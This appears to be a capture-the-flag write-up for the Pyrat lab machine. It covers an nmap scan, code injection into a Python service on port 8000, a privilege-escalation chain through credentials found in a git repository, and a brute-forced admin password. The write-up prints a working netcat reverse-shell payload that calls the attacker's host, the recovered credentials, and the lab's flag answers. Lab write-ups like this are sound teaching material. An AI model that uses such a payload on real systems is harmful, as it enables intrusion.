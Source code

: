 # Pyrat
(Flags can be found at the end of this writeup)
### Pyrat
Initial scan shows port 22 and 8000 open

    p22,8000 -sV -sC -oN scan 10.10.0.182
    Nmap scan report for 10.10.0.182
    Host is up (0.052s latency).
    
    PORT     STATE SERVICE  VERSION
    22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
    |   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
    |_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
    8000/tcp open  http-alt SimpleHTTP/0.6 Python/3.11.2
    |_http-title: Site doesn't have a title (text/html; charset=utf-8).
    |_http-server-header: SimpleHTTP/0.6 Python/3.11.2
    |_http-open-proxy: Proxy might be redirecting requests
    | fingerprint-strings: 
    |   DNSStatusRequestTCP, DNSVersionBindReqTCP, JavaRMI, LANDesk-RC, NotesRPC, Socks4, X11Probe, afp, giop: 
    |     source code string cannot contain null bytes
    |   FourOhFourRequest, LPDString, SIPOptions: 
    |     invalid syntax (<string>, line 1)
    |   GetRequest: 
    |     name 'GET' is not defined
    |   HTTPOptions, RTSPRequest: 
    |     name 'OPTIONS' is not defined
    |   Help: 
    |_    name 'HELP' is not defined
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port8000-TCP:V=7.94SVN%I=7%D=10/14%Time=670D487D%P=x86_64-pc-linux-gnu%
    SF:r(GenericLines,1,"\n")%r(GetRequest,1A,"name\x20'GET'\x20is\x20not\x20d
    SF:efined\n")%r(X11Probe,2D,"source\x20code\x20string\x20cannot\x20contain
    SF:\x20null\x20bytes\n")%r(FourOhFourRequest,22,"invalid\x20syntax\x20\(<s
    SF:tring>,\x20line\x201\)\n")%r(Socks4,2D,"source\x20code\x20string\x20can
    SF:not\x20contain\x20null\x20bytes\n")%r(HTTPOptions,1E,"name\x20'OPTIONS'
    SF:\x20is\x20not\x20defined\n")%r(RTSPRequest,1E,"name\x20'OPTIONS'\x20is\
    SF:x20not\x20defined\n")%r(DNSVersionBindReqTCP,2D,"source\x20code\x20stri
    SF:ng\x20cannot\x20contain\x20null\x20bytes\n")%r(DNSStatusRequestTCP,2D,"
    SF:source\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(He
    SF:lp,1B,"name\x20'HELP'\x20is\x20not\x20defined\n")%r(LPDString,22,"inval
    SF:id\x20syntax\x20\(<string>,\x20line\x201\)\n")%r(SIPOptions,22,"invalid
    SF:\x20syntax\x20\(<string>,\x20line\x201\)\n")%r(LANDesk-RC,2D,"source\x2
    SF:0code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(NotesRPC,2D
    SF:,"source\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(
    SF:JavaRMI,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\x20by
    SF:tes\n")%r(afp,2D,"source\x20code\x20string\x20cannot\x20contain\x20null
    SF:\x20bytes\n")%r(giop,2D,"source\x20code\x20string\x20cannot\x20contain\
    SF:x20null\x20bytes\n");
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Port 8000 seems to be a minimal webserver written in python. However, from the scan, error messages such as

    "name 'GET' is not defined"
    "name 'OPTIONS' is not defined"
    "source code string cannot contain null bytes"
    "invalid syntax (<string>, line 1)"

Suggest to me that this connection interprets the input as python code directly, as these are the same error messages provided by the python language. Infact, if I try to execute a netcat connection to my machine, it actually works, like in the figure below:<br />
![image](https://github.com/user-attachments/assets/7ed9ee74-1411-43fd-a9cc-73df4300c489)<br />
We have RCE. Time to spawn a reverse shell; I used the following payload: `__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.90.188 9999 >/tmp/f')`
![image](https://github.com/user-attachments/assets/75a3abb7-4c55-4013-9343-d44299ec0a49)<br />
Using linpeas on the target machine, it reveals some files inside `/opt`, which usually is empty:<br />
![image](https://github.com/user-attachments/assets/3440046d-d233-4944-96aa-9a957f5168a6)<br />
This directory contains a git project. Enumerating a bit the files inside this directory, I found a set of credentials:
![image](https://github.com/user-attachments/assets/d983c2f0-fef9-49bb-a398-90e3bebce124)<br />
`think:_TH1NKINGPirate$_`. So I logged on think's account using ssh. Further system enumeration(still using linpease) led me to this interesting email sent by "root" to "think":<br />
![image](https://github.com/user-attachments/assets/b5941b57-9cd2-4775-95a8-dabd28f959a4)<br />
So probably this RAT(Remote Administration Tool) the project contained in the /opt directory. However there's only a `.git` folder, which doesn't contain the code. In order to find the code, we need to restore the project to an older version, like in the figure below:<br />
![image](https://github.com/user-attachments/assets/48fbbf7a-c7de-4e91-be04-9f318edc9540)<br />
At this point I was stuck for a while, and decided to go back to the initial netcat connection on port 8000. Initially I saw that typing "admin" on the netcat connection, the server responded with "password:". So I created a python script to bruteforce the login (it can be found inside this folder). The password is `abc123`. And it gave me access to a full root shell:<br />
![image](https://github.com/user-attachments/assets/7cfbcc1d-1609-46d4-a529-4ef4b0f75b85)<br />





- What is the user flag? `996bdb1f619a68361417cabca5454705`
- What is the root flag? `ba5ed03e9e74bb98054438480165e221`
